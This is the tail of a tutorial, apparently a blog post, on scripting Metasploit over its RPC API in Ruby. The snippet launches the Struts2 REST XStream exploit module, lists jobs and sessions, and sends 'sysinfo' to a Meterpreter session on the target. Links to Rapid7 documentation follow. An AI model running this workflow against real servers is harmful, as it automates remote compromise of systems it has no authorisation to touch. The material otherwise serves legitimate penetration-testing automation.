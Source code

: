```ruby
}
job = rpc.call('module.execute', 'exploit', 'multi/http/struts2_rest_xstream', exp_opts.merge(pay_opts))
rpc.call('job.list')
rpc.call('job.info', 7)
rpc.call('session.list')
rpc.call('session.meterpreter_write', 10, "sysinfo")
rpc.call('session.meterpreter_read', 10)
```

Finally, I really find this as an awesome way to use Metasploit in ways you are never thought it would be that easy in your code. I'll leave the rest to your imagination.

## **Resources**

* [Running Metasploit Remotely](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely)
* [RPC API](https://metasploit.help.rapid7.com/docs/rpc-api)
* [MSF RPC Code](https://github.com/rapid7/metasploit-framework/tree/master/lib/msf/core/rpc/v10)

